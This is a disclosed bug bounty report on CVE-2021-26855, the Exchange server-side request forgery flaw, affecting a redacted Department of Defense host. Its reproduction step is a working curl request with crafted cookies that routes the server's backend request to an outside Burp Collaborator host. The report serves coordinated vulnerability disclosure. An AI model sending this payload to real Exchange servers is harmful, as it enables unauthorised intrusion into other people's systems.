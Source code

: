 # CVE-2021-26855 on ████████ resulting in SSRF

## Report Details
- **Report ID**: 1119228
- **URL**: https://hackerone.com/reports/1119228
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-03-07T11:37:32.465Z
- **Disclosed**: 2021-03-24T20:54:28.248Z

## Reporter
- **Username**: spongebhav
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
***CVE-2021-26855*** exists on ***███████ resulting*** in SSRF

## References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26855
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26855

## Impact

Server Side Request Frogery

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-26855

## Steps to Reproduce
```
curl -i -s -k -X $'GET' \
    -H $'Host: █████' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' \
    $'https://████████/owa/auth/x.js'
```

OUTPUT:
██████████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
